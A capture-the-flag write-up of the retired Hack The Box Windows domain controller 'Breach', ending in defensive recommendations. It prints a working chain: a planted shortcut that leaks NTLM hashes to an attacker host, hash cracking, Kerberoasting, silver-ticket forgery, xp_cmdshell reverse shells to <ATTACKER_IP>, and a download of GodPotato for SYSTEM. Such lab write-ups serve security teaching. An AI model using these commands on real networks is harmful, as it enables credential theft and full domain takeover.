




# Breach - Hack The Box Write-Up

## Machine Information

| Field            | Value                                                                                                                   |
| ---------------- | ----------------------------------------------------------------------------------------------------------------------- |
| Machine          | Breach                                                                                                                  |
| Platform         | Hack The Box                                                                                                            |
| Operating system | Windows Server 2022                                                                                                     |
| Difficulty       | Medium                                                                                                                  |
| Status           | Retired                                                                                                                 |
| Domain           | `breach.vl`                                                                                                             |
| Primary services | DNS, Kerberos, LDAP, SMB, Microsoft SQL Server, RDP, WinRM                                                              |
| Main techniques  | Forced NTLM authentication, offline password cracking, Kerberoasting, silver ticket, `xp_cmdshell`, token impersonation |

## Executive Summary

Guest authentication exposed a read-write SMB share used for employee file transfers. An Internet Shortcut containing an attacker-controlled UNC icon path was placed in that share. When Windows attempted to load the remote icon, the target initiated an outbound SMB connection and supplied Julia Wong's NetNTLMv2 challenge response. Her password was then recovered offline.

Julia's domain credentials enabled Active Directory enumeration and revealed the Kerberoastable `svc_mssql` account. Its service ticket was requested and cracked, disclosing the service account password. The password-derived NT hash was then used as the RC4 service key to forge a silver ticket for the MSSQL SPN as the built-in Administrator.

The forged ticket authenticated to SQL Server as `BREACH\Administrator`, where the login was mapped to `dbo`. Command execution through `xp_cmdshell` provided a shell in the SQL Server service context. That token held `SeImpersonatePrivilege`, which GodPotato abused to obtain `NT AUTHORITY\SYSTEM` on the domain controller.

```mermaid
flowchart LR
    A["Guest access to writable SMB share"] --> B["Shortcut references remote UNC icon"]
    B --> C["Capture Julia Wong NetNTLMv2 response"]
    C --> D["Crack Julia's weak password"]
    D --> E["Enumerate AD and Kerberoast svc_mssql"]
    E --> F["Recover MSSQL service key"]
    F --> G["Forge Administrator silver ticket"]
    G --> H["Authenticate to MSSQL as dbo"]
    H --> I["Execute xp_cmdshell in service context"]
    I --> J["Abuse SeImpersonatePrivilege"]
    J --> K["NT AUTHORITY\\SYSTEM"]
```



## Conventions

The following placeholders replace changing lab values and sensitive material:

| Placeholder | Meaning |
| --- | --- |
| `<TARGET_IP>` | Breach's current lab address |
| `<ATTACKER_IP>` | VPN address of the attacking host |
| `<JULIA_PASSWORD>` | Recovered password for Julia Wong |
| `<MSSQL_PASSWORD>` | Recovered password for `svc_mssql` |
| `<MSSQL_NT_HASH>` | NT hash derived from the MSSQL service password |
| `<BASE64_REVERSE_SHELL>` | Encoded PowerShell callback payload |

No user or root flag values are included.

## Reconnaissance

### Port Discovery

A full TCP scan identified the exposed services:

```bash
nmap -p- -Pn --min-rate 10000 <TARGET_IP> -oN nmap/open-ports
```

```text
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
```

A focused scan identified the host as the only domain controller for `breach.vl` and exposed several important details:

```text
Host:                 BREACHDC.breach.vl
Operating system:     Windows Server 2022 Build 20348
Microsoft SQL Server: 2019 RTM (15.00.2000.00)
SMB signing:          enabled and required
SMBv1:                disabled
```

The names were mapped locally for tools that required DNS resolution:

```bash
echo '<TARGET_IP> BREACH BREACHDC breach.vl BREACHDC.breach.vl' | sudo tee -a /etc/hosts
```

### Guest SMB Access

An empty username could authenticate but could not enumerate shares. The explicit `guest` account, and even a nonexistent username mapped to Guest, received additional access:

```bash
nxc smb <TARGET_IP> -u guest -p '' --shares
```

```text
Share    Permissions
-----    -----------
IPC$     READ
share    READ,WRITE
Users    READ
```

The writable share contained three top-level areas. The `transfer` directory exposed employee names even though Guest could not list each employee's subdirectory:

```text
finance/
software/
transfer/
  claire.pope/
  diana.pope/
  julia.wong/
```

Uploading an empty test file confirmed that Guest could write directly to `transfer`:

```text
smb: \transfer\> put test.txt
putting file test.txt as \transfer\test.txt
```

## Initial Access

### Forced Authentication Through an Internet Shortcut

An Internet Shortcut was created with its icon hosted on an attacker-controlled UNC path:

```ini
[InternetShortcut]
URL=https://example.invalid/
WorkingDirectory=.
IconFile=\\<ATTACKER_IP>\icons\document.ico
IconIndex=1
```

The file was uploaded to the shared transfer directory:

```text
smb: \transfer\> put internet-shortcut.url
```

The important field was `IconFile`. When Windows Shell rendered the shortcut, it attempted to retrieve the icon from the remote UNC path. Accessing that SMB resource automatically initiated NTLM authentication to the attacking host, so simply browsing the directory could trigger the request without opening the shortcut as a web link.

Responder captured the resulting authentication exchange:

```bash
sudo responder -I tun0
```

```text
[SMB] NTLMv2-SSP Client   : <TARGET_IP>
[SMB] NTLMv2-SSP Username : BREACH\Julia.Wong
[SMB] NTLMv2-SSP Hash     : <REDACTED_NETNTLMV2_RESPONSE>
```

The captured NetNTLMv2 challenge response could be tested offline against password candidates:

```bash
hashcat Julia.Wong.hash /usr/share/wordlists/rockyou.txt
```

The password was recovered and then verified over SMB:

```bash
nxc smb <TARGET_IP> -u Julia.Wong -p '<JULIA_PASSWORD>'
```

```text
[+] breach.vl\Julia.Wong:<JULIA_PASSWORD>
```

## Active Directory Enumeration

### BloodHound Collection

Julia's credentials allowed an authenticated BloodHound collection:

```bash
bloodhound-python -c all -d breach.vl \
  -u Julia.Wong -p '<JULIA_PASSWORD>' \
  -ns <TARGET_IP> -dc BREACHDC.breach.vl --zip
```

The collector found one domain, one computer, 15 users, 54 groups, and no domain trusts. The resulting archive was imported into BloodHound for analysis.



The built-in query for Kerberoastable users returned `SVC_MSSQL@BREACH.VL`.



### Kerberoasting the SQL Service Account

Any authenticated domain user can request a service ticket for an SPN. The ticket is protected with key material belonging to the account that owns the SPN, allowing an offline password attack when that account has a weak password.

```bash
impacket-GetUserSPNs 'breach.vl/julia.wong:<JULIA_PASSWORD>' -request
```

```text
ServicePrincipalName                 Name
-----------------------------------  ---------
MSSQLSvc/breachdc.breach.vl:1433     svc_mssql
```

The returned `$krb5tgs$23$...` value was saved and tested with Hashcat:

```bash
hashcat <KERBEROS_TGS_HASH_FILE> /usr/share/wordlists/rockyou.txt
```

The attack recovered the password for `svc_mssql`, providing the key material needed to target its registered MSSQL service.

## Silver Ticket to SQL Server

A silver ticket is a forged Kerberos service ticket created for a specific SPN. The target service validates the ticket with its own service-account key. Because the password for `svc_mssql` was known, its RC4 key could be used to create a valid-looking ticket for the MSSQL SPN without requesting one from the domain controller.

For the RC4-HMAC ticket used here, the service key was the account's NT hash:

```bash
pypykatz crypto nt '<MSSQL_PASSWORD>'
```

```text
<MSSQL_NT_HASH>
```

BloodHound supplied the domain SID:



```text
S-1-5-21-2330692793-3312915120-706255856
```

Verify if the built-in Administrator account used relative identifier `500`:



### Forging and Using the Ticket

Impacket created a ticket whose PAC claimed the `Administrator` identity for the MSSQL service:

```bash
impacket-ticketer \
  -spn MSSQLSvc/breachdc.breach.vl \
  -domain breach.vl \
  -domain-sid S-1-5-21-2330692793-3312915120-706255856 \
  -nthash <MSSQL_NT_HASH> \
  -user-id 500 \
  -dc-ip <TARGET_IP> \
  Administrator

export KRB5CCNAME="$(pwd)/Administrator.ccache"
```

The command produced `Administrator.ccache`, which was presented directly to SQL Server:

```bash
impacket-mssqlclient BREACHDC.breach.vl -k -no-pass
```

```text
Encryption required, switching to TLS
ACK: Result: 1 - Microsoft SQL Server 2019 RTM (15.0.2000)
SQL (BREACH\Administrator  dbo@master)>
```

SQL Server accepted the forged Administrator identity and mapped the session to `dbo`, providing the database privileges needed to execute operating-system commands.

## Command Execution Through MSSQL

The privileged SQL session could invoke `xp_cmdshell`, which was already enabled:

```text
SQL (BREACH\Administrator  dbo@master)> xp_cmdshell powershell -e <BASE64_REVERSE_SHELL>
```

A listener received the callback:

```bash
nc -lnvp 4444
```

```text
connect to [<ATTACKER_IP>] from (UNKNOWN) [<TARGET_IP>]
PS C:\Windows\system32>
```

Although the SQL session used the forged Administrator identity, `xp_cmdshell` launched commands with the rights of the SQL Server service account. In this case, the resulting Windows token was `NT AUTHORITY\NETWORK SERVICE`.

Inspecting its privileges exposed the final escalation path:

```powershell
whoami /priv
```

```text
Privilege Name                Description                               State
============================= ========================================= =======
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeManageVolumePrivilege      Perform volume maintenance tasks          Enabled
```

## Privilege Escalation

### GodPotato Token Impersonation

GodPotato was transferred from a temporary HTTP server to `C:\Users\Public`:

```bash
python -m http.server 8081
```

```powershell
Invoke-WebRequest -Uri http://<ATTACKER_IP>:8081/GodPotato-NET4.exe -OutFile C:\Users\Public\GodPotato-NET4.exe
```

The tool used the available impersonation privilege to obtain a SYSTEM token and launch a child process under it:

```powershell
.\GodPotato-NET4.exe -cmd "cmd /c whoami"
```

```text
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Find System Token : True
[*] CurrentUser: NT AUTHORITY\SYSTEM
nt authority\system
```

Finally, the same primitive launched a second callback:

```powershell
.\GodPotato-NET4.exe -cmd "cmd /c powershell -e <BASE64_REVERSE_SHELL>"
```

```text
connect to [<ATTACKER_IP>] from (UNKNOWN) [<TARGET_IP>]
whoami
nt authority\system
```

Because BREACHDC was the domain controller, obtaining local `SYSTEM` completed the machine compromise.

## Security Observations

| Observation | Impact | Recommended control |
| --- | --- | --- |
| Unknown usernames were mapped to Guest | Unauthenticated users inherited access intended for Guest | Disable Guest access and reject unknown identities instead of mapping them to Guest |
| Guest could write to an employee-facing SMB directory | An attacker could stage files that users or automated processes would enumerate | Require authentication, enforce least-privilege ACLs, and separate untrusted uploads from user-browsed locations |
| The server initiated SMB authentication to an external host | NetNTLM challenge-response material could leave the network | Block outbound TCP 445/139 and WebDAV where unnecessary; restrict NTLM and monitor external authentication attempts |
| Julia Wong used a weak, crackable password | Captured authentication material became a valid domain credential | Enforce long, unique passwords and screen passwords against known-compromised values |
| `svc_mssql` used a weak password and RC4-compatible Kerberos ticketing | A service ticket exposed the account to practical offline cracking | Use a gMSA or long random service password, enable AES, rotate credentials, and audit RC4 ticket use |
| Knowledge of the service key enabled a forged MSSQL ticket | SQL trusted attacker-controlled PAC data signed with the compromised service key | Rotate the service credential after compromise and monitor anomalous service-ticket use that bypasses the KDC |
| The forged login mapped to SQL `dbo` and `xp_cmdshell` was available | A database authentication compromise became operating-system command execution | Minimize SQL logins with `sysadmin`, disable `xp_cmdshell` when not required, and monitor attempts to enable or invoke it |
| The SQL service context held `SeImpersonatePrivilege` | Service-level code execution escalated to local SYSTEM | Use a least-privileged service identity and remove unnecessary token privileges; apply current Windows security updates |

## Key Lessons

1. A writable share becomes substantially more dangerous when trusted users or automation browse its contents.
2. Weak passwords allow captured NetNTLMv2 challenge responses to be converted into valid credentials through offline cracking.
3. Kerberoasting is possible because service tickets are protected with keys derived from the SPN owner's credential; service-account password quality is therefore critical.
4. A compromised service-account key can be used to forge a silver ticket and impersonate a privileged user to that service.
5. Privileged database access can lead to operating-system command execution when dangerous functionality such as `xp_cmdshell` is available.
6. `SeImpersonatePrivilege` is especially dangerous on service accounts because a suitable token-impersonation primitive can convert service compromise into SYSTEM.

## References

- [Hack The Box: Breach machine profile](https://www.hackthebox.com/machines/breach)
- [MITRE ATT&CK T1187: Forced Authentication](https://attack.mitre.org/techniques/T1187/)
- [Microsoft Learn: Internet Shortcuts](https://learn.microsoft.com/en-us/windows/win32/lwef/internet-shortcuts)
- [Microsoft Learn: Kerberos authentication overview](https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview)
- [Microsoft Learn: xp_cmdshell (Transact-SQL)](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql)
- [Fortra Impacket: ticketer.py](https://github.com/fortra/impacket/blob/master/examples/ticketer.py)
- [BeichenDream: GodPotato](https://github.com/BeichenDream/GodPotato)
